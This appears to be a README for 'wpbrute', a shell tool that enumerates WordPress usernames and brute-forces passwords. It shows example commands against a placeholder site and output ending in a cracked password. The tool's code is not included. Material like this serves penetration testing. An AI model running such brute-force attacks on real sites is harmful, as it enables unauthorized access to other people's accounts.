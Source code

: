WPBRUTE
=======

Wordpress user enumeration and password bruteforce.

#User Enumeration:

<code>$ ./wpbrute.sh --url=www.example.com</code>
<pre>
[+] Username or nickname enumeration
admin
testuser
</pre>

#Password Bruteforce:

<code>$ ./wpbrute.sh --url=www.example.com --user=admin --wordlist=passwords.txt</code>
<pre>
[+] Bruteforcing user [admin]
123456
test123
123test123
The password is: 123test123
</pre>

